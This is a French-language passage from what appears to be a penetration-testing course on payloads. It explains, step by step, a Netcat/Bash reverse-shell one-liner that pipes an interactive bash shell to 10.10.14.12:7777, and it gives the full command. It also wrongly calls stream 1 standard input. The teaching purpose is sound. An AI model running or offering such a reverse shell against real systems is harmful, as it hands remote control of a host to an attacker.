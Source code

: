 # Introduction aux Payloads

## Avez-vous déjà envoyé un e-mail ou un SMS à quelqu'un ?

La plupart d'entre nous l'ont probablement fait. Le message que nous envoyons dans un e-mail ou un SMS est la charge utile du paquet tel qu'il est envoyé sur le vaste Internet. En informatique, la charge utile est le message prévu. En sécurité de l'information, la charge utile est la commande et/ou le code qui exploite la vulnérabilité dans un système d'exploitation et/ou une application. La charge utile est la commande et/ou le code qui effectue l'action malveillante d'un point de vue défensif. Comme nous l'avons vu dans la section reverse shells, Windows Defender a stoppé l'exécution de notre payload PowerShell car il était considéré comme un code malveillant.

Gardez à l'esprit que lorsque nous livrons et exécutons des charges utiles, comme tout autre programme, nous donnons à l'ordinateur cible des instructions sur ce qu'il doit faire. Les termes "malware" et "code malveillant" idéalisent le processus et le rendent plus mystérieux qu'il ne l'est. Chaque fois que nous travaillons avec des charges utiles, mettons-nous au défi d'explorer ce que font réellement le code et les commandes. Nous allons commencer ce processus en décomposant les one-liners avec lesquels nous avons travaillé précédemment:

## Les one-liners examinés
### Netcat/Bash Reverse Shell One-liner
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

Les commandes ci-dessus constituent une ligne commune émise sur un système Linux pour servir un shell Bash sur un socket réseau utilisant un écouteur Netcat. Nous l'avons utilisé précédemment dans la section Bind Shells. Il est souvent copié et collé mais pas souvent compris. Décomposons chaque partie du one-liner:

### Supprimer /tmp/f
```
rm -f /tmp/f; 
```
Supprime le fichier /tmp/f s'il existe, -f oblige rm à ignorer les fichiers inexistants. Le point-virgule (;) est utilisé pour exécuter la commande de manière séquentielle.

### Faire un "Named Pipe"
```
mkfifo /tmp/f; 
```
Crée un fichier de canal nommé FIFO à l'emplacement spécifié. Dans ce cas, /tmp/f est le fichier de canal nommé FIFO, le point-virgule (;) est utilisé pour exécuter la commande de manière séquentielle.

### Redirection de sortie
```
cat /tmp/f | 
```

Concatène le fichier pipe nommé FIFO /tmp/f, le pipe (|) connecte la sortie standard de cat /tmp/f à l'entrée standard de la commande qui vient après le pipe (|).

### Insérer les options du shell
```
/bin/bash -i 2>&1 | 
```
Spécifie l'interpréteur de langage de commande à l'aide de l'option -i pour garantir que le shell est interactif. 2>&1 garantit que le flux de données d'erreur standard (2) et le flux de données d'entrée standard (1) sont redirigés vers la commande suivant le canal (|).

